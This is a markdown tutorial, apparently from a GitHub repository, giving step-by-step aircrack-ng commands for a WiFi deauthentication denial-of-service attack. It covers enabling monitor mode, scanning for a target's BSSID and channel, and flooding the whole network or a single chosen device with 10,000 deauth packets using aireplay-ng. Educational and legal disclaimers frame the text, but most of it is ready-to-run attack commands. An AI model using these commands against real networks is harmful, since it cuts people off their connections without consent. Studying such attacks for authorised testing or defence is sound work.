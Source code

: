 # WiFi DOS Attack (Deauthentication Attack)

## Disclaimer  
This guide is for educational purposes only. Unauthorized access to networks is illegal and punishable under law. Only perform these actions on networks you own or have permission to test.  

---

## Step-by-Step Guide  

### Step 1: Enable Monitoring Mode  
First, put your WiFi adapter into monitoring mode. Run:  

```bash
airmon-ng start wlan0
```
Replace `wlan0` with your adapter's name. You can check the name using:  

```bash
ifconfig
```
or  

```bash
iwconfig
```

---

### Step 2: Verify Monitoring Mode  
Confirm that your network adapter is now in monitoring mode:  

```bash
ifconfig
```
or  

```bash
iwconfig
```
Once confirmed, proceed to the next step.  

---

### Step 3: Scan for Target WiFi  
Find the **BSSID** (MAC address) and **channel** of the target WiFi network:  

```bash
airodump-ng wlan0
```
This will scan for nearby WiFi networks. Once you spot your target, press `Ctrl + C` to stop scanning.  

Copy the **BSSID** and **channel** of the target WiFi.  

---

### Step 4: Focus on the Target WiFi  
Now, scan only the target WiFi network to view connected devices:  

```bash
airodump-ng --channel {channel_number} --bssid {bssid} wlan0
```
Replace `{channel_number}` and `{bssid}` with the values you copied earlier.  

This will display only the connected devices on the target network.  

---

### Step 5: Launch the Deauthentication (DOS) Attack  

#### Attack the Entire WiFi Network  
Send deauthentication packets to disconnect all devices from the target WiFi:  

```bash
aireplay-ng --deauth 10000 -a {bssid} wlan0
```
This sends 10,000 deauth packets to the target network. You can increase or decrease the number based on your needs.  

#### Attack a Specific Device  
If you want to target a specific device, use its MAC address (Station ID) from the previous scan:  

```bash
aireplay-ng --deauth 10000 -a {bssid} -c {device_mac} wlan0
```
Replace `{device_mac}` with the MAC address of the device you want to disconnect.  

---
## How to get netwok to restart 
- Run:

```bash
sudo airmon-ng stop wlan0mon
```
- Make sure your adapter is showing up. If it's not up, run:

```bash
ifconfig wlan0 up
```
- Restart the services that you killed.

- Run:
```bash
service NetworkManager start
```
- Note: service network-manager start will give a message saying it's not installed. Hence, run:
```bash
sudo service NetworkManager start
```
- Your Wi-Fi adapter should restart at this point, so give it a second to show up.
---

## Notes  
- You need a **compatible WiFi adapter** that supports **monitor mode** and **packet injection**.  
- This attack **does not break WiFi encryption**; it only **disconnects devices** temporarily.  
- The attack stops when you stop running the command.

---

## Legal Warning  
Performing unauthorized attacks on networks you don’t own is illegal and can result in severe penalties. Always ensure you have explicit permission before testing network security.  
